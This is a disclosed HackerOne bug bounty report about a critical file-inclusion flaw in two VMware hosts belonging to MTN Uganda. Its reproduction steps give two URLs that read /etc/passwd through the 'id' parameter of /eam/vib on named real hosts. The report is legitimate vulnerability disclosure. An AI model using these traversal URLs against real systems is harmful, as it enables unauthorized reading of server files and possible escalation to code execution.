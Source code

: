 # 2x Remote file inclusion within your VMware Instances

## Report Details
- **Report ID**: 1069105
- **URL**: https://hackerone.com/reports/1069105
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-12-31T05:35:34.107Z
- **Disclosed**: 2021-08-19T20:16:25.820Z

## Reporter
- **Username**: 0x0luke
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
## Summary:
2x Remote file inclusion within your VMware Instances

##Hosts: 

nmc.vc.mtn.co.ug
h28a.n1.ips.mtn.co.ug

## Steps To Reproduce:
Navigate to the URLs given below, /etc/passwd will be displayed.

https://nmc.vc.mtn.co.ug/eam/vib?id=/etc/passwd
https://h28a.n1.ips.mtn.co.ug/eam/vib?id=/etc/passwd

## Impact

An attacker is able to view sensitive files on the server hosting this content and could potentially elevate this to a remote code execution.

## Attachments
No attachments
